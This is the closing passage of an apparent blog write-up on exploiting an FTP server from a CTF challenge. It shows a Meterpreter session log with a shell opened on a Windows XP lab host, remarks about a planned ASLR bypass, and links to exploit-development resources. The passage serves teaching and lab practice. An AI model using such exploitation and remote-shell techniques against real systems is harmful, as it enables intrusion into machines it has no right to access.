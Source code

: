 Watch the magic happen:

![FTP pwnage](/uploads/2014/03/04-magic.png)

And enjoy a Meterpreter shell:

{% codeblock Meterpreter shell %}
[*] Sending stage (787456 bytes) to 10.1.10.34
[*] Meterpreter session 2 opened (10.1.10.40:8000 -> 10.1.10.34:3779) at 2014-03-01 01:20:04 +1000

meterpreter > getuid
Server username: OJ-75E3B8CC9475\bob
meterpreter > sysinfo
Computer        : OJ-75E3B8CC9475
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Meterpreter     : x86/win32
{% endcodeblock %}

## Last thoughts

Adding new Windows XP based targets to this is a breeze, and is left as an exercise for the reader. I plan to do a future post on how to make this bypass ASLR, but I'm not sure when I'll get to it. Writing these things up takes way longer than exploiting them in the first place.

I hope you enjoyed the reading. Comments and questions are always welcome, as are corrections for fails and typos.

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux

